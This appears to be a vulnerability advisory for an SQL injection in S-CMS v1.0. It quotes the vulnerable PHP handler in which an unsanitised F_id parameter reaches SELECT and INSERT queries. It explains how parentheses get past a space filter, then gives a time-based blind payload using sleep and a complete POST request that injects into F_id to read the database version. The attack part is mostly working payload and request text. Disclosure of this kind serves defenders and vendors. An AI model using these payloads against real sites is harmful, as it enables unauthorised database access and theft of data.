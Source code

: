 ## Vulnerability summary

​	Vulnerability Name:  S-CMS v1.0 SQLi Vulnerability
​    Vulnerability finder：mntn@knownsec.com
​    Product Home：https://www.s-cms.cn/download.html
​    Software link： https://cdn.shanling.top/file/4.edu.php.zip
​    Version: v 1.0

## 二、漏洞概述

Error is in file: 4.edu.php\conn\function.php

Code：

```php
case "form_addmenu":

$sql="select * from ".TABLE."menu where U_sub=0 order by U_order desc limit 1";
$result = mysqli_query($conn, $sql);
$row = mysqli_fetch_assoc($result);
if(mysqli_num_rows($result) > 0) {
$U_order=$row["U_order"];
}
$sql="select * from ".TABLE."form where F_id=".$_GET["F_id"];
$result = mysqli_query($conn, $sql);
$row = mysqli_fetch_assoc($result);
if(mysqli_num_rows($result) > 0) {
$F_title=$row["F_title"];
$F_entitle=$row["F_entitle"];
}
mysqli_query($conn,"insert into ".TABLE."menu(U_title,U_entitle,U_order,U_sub,U_ico,U_type,U_typeid) values('".$F_title."','".$F_entitle."',".($U_order+1).",0,'bars','form',".$_REQUEST["F_id"].")");
echo "success|æ·»å æå!";
lg("æ°å¢è¡¨åå°ä¸»èåï¼IDï¼".$_GET["F_id"]."ï¼");
die();
break;
```

`case: "form_addmenu"`is composed of `action` and `type`, and is executed by switch...case. Because of the protection, `spaces, -, *` are replaced with `_`, so use parentheses to bypass the space filter.

Insert injection in 16 lines, the accepted parameters are passed in through REQUEST, and the select statement in line 9 is passed in by GET, so first use the Post method to pass the parameters, not to control the select statement, the resulting payload is As mentioned above.

Query data by time blind：

```sql
(select(if(length(database())=8,sleep(5),1))))#
```
payload：

```
POST /4.edu.php/admin/ajax.php?action=addmenu&type=form HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Connection: close
Referer: http://localhost/4.edu.php/admin/ajax.php?action=addmenu&type=form
Cookie: authx=; count_all=0; userx=; passx=; add=%E4%B8%AD%E5%9B%BD; user=admin; pass=7b19569b9317927e14152e312767a351; A_type=1; auth=1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1; newsauth=all; productauth=all; textauth=all; formauth=all; bbsauth=all; lang=1ccd6812fc6526259c27c108a3a932225069539c%7Een; PHPSESSID=va94ir8ganf5t19mccv8oqqmu1; Hm_lvt_b60316de6009d5654de7312f772162be=1570675175; Hm_lpvt_b60316de6009d5654de7312f772162be=1570675490
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.2

F_id=(select(version())))#
```


The last closed SQL statement is as follows：

![](D:\Picture\S-CMS-sql.png)

Of course, because it is REQUEST, there is no problem with GET (remember code#)：

![](D:\Picture\S-CMS-sql_1.png)

![](D:\Picture\S-CMS-sql_2.png)
